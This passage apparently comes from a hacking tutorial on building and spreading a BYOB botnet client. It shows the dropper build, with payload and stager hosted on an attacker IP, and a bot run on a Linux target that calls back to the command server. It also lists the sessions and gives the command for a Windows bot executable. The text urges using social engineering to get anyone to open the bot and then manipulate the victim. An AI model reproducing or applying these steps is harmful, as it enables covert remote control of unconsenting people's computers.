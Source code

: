 192.168.1.7 is the attacker IP address.
445 is the same port used to assign botnet server on 445. You have to enter same port number as assigned in bot server.
[>] Modules
         Adding modules…  (3 modules added to client)
[>] Imports
         Adding imports…- (26 imports from 3 modules) 
[>] Payload
         Compressing payload…  (121,261 bytes reduced to 64,855 bytes (-47.0% smaller)
         Uploading payload…- (hosting payload at: https://192.168.1.7:4446//payloads/a5o.py) 
[>] Stager
         Compressing stager…- (2,194 bytes reduced to 2,159 bytes (-2.0% smaller)
         Uploading stager…  (hosting stager at: https://192.168.1.7:4446//stagers/a5o.py) 
[>] Dropper
         Writing dropper…  (203 bytes written to testbot.py)
After executing the above query, a new botnet will be created. The above query will execute
Now you can use any social engineering trick anyone to open bot in their computer.
Here we have two targets. First one is the Linux and second one is the Windows.
TARGET LINUX MACHINE :-

Now we have open botnet in target Linux machine.
For opening bot simply type python testbot.py in target Linux terminal.
root@kali:/Downloads/python testbot.py
When above query is executed in target machine. A session will be created in botnet server.
[+] New Connection: 192.168.1.10

    Session: 2

    Started: Tue Jan 22 05:14:24 2019
The above connection will be created when bot is executed in target machine.
For checking session go to bot server terminal where bot server is running and type sessions
[root @ /home/iicybersecurity/Downloads/byob/byob]>sessions

1
    username                    root
    administrator               True
    uid                         c94e3a38e43e74bb4f667d86d21a7574
    sessions                    True
    mac_address                 C2:97:F3:9F:2:
    local_ip                    127.0.1.1
    joined                      2019-01-22 05:14:24.809827
    last_online                 2019-01-22 07:12:52.295591
    public_ip                   146.196.34.40
    platform                    linux2
    architecture                64
    online                      True
    device                      kali
As you can see the target is showing true. That means bot is completely configured in target machine.
Now you can run various commands to manipulate target.
TARGET WINDOWS MACHINE :-
Now for creating for windows bot type python client.py –name testbot2.py –freeze 192.168.1.7 445 in Linux terminal.
–name is used to enter bot name. Here name of the bot is testbot2.py
–freeze is used to create windows executable file.
192.168.1.7 is the attacker IP address.
445 is the same port used to assign botnet server on 445. You have to enter same port number as assigned in bot server.
root@kali:/home/iicybersecurity/Downloads/byob/byob# python client.py --name testbot2.py --freeze 192.168.1.7 445
